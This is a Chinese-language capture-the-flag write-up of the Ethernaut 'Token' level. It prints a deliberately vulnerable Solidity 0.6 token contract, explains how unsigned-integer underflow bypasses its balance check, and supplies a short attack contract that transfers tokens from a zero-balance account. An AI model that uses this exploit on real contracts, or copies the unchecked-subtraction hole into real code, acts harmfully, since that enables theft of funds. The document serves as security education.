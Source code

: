 # Token
Token這一關考察的是 solidity ^0.6.0中關於`uint` 數學計算的問題，讓我們先來看一下代碼

## 合约代码
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
## 代码分析
在這關中，我們的錢包會被預先給予**20個**token，而我們的目標是通過攻擊合約，將我們的token數量增加。整個合約的代碼非常簡單，唯一可以讓我們增加餘額的僅僅只是`transfer`函數。

進入看`transfer`函數，這個函數的入參有兩個，一個是接受地址，另一個是接受token的數量，而這個函數的實現非常簡單，就是將`msg.sender`的餘額減去`_value`，然後將`_value`加到接受地址的餘額上。在此之前，他需要檢查`msg.sender`的餘額是否大於`_value`，如果不是，則會拋出異常。

看似沒有什麽問題，但是在solidity ^0.6.0中，直接進行uint的計算經常會出現問題。儅0減去一個大於0的uint時，會導致結果溢出，而溢出的結果會是一個非常大的數字，這個數字會大於0，所以檢查就會通過，這就是我們要利用的漏洞。

那我們就需要使用一個合約，這個合約token的餘額為0，然後我們通過這個合約來調用`transfer`函數，transfer給我們的錢包任意的數量，都可以通過檢查，以此達到完成這關的目的。

## 攻击代码
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface Itoken {
  function transfer(address _to, uint _value) external returns (bool);
  function balanceOf(address) external view returns (uint256);
}

contract Attack {
  constructor(address _target) {
    Itoken(_target).transfer(msg.sender, 10);
  }
}
```
## 攻击过程
1. 獲取實例的地址所謂部署Attack合約時contructor的入參。
2. 使用Itoken與實例地址交互，調用balanceOf函數檢查餘額是否增加。
